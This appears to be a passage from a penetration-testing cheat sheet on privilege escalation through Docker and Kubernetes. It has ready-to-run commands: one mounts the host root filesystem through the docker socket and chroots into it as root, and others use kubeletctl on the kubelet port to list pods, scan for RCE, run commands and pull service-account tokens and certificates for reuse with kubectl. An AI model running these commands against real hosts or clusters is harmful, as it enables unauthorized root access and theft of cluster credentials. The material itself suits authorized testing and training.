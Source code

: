 ```bash
```

- To gain root privileges through Docker, the user we are logged in with must be in the docker group. This allows him to use and control the Docker daemon.
- Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run docker as root. All three options allow us to work with Docker to escalate our privileges.

```bash
# list images
docker images ls

# when docker socket is writtable
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it <ImageName | ubuntu> chroot /mnt bash
```

###### Kubernetes

- The API server is the entry point for all the administrative commands, either from users via kubectl or from the controllers. This server communicates with etcd to fetch or update the cluster state.
-

```bash
# try to curl kubernetes API server : port 6443 and try to access root
curl https://<IP>:6443 -k

# try to curl pods schedulers
curl https://<IP>:10250/pods -k | jq .
# alternative
kubeletctl -i --server <IP> pods

# scan
kubeletctl -i --server <IP> scan rce

# run cmd
kubeletctl -i --server <IP> exec "id" -p nginx -c nginx
```

- To gain higher privileges and access the host system, we can utilize a tool called kubeletctl to obtain the Kubernetes service account's token and certificate (ca.crt) from the server. we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.

  ```bash
  # priv esc part 1


  # 1-  extract tokens
  kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

  # 2 - extract certificates
  kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

  # list priv
  export token=`cat k8.token`
  kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
  ```
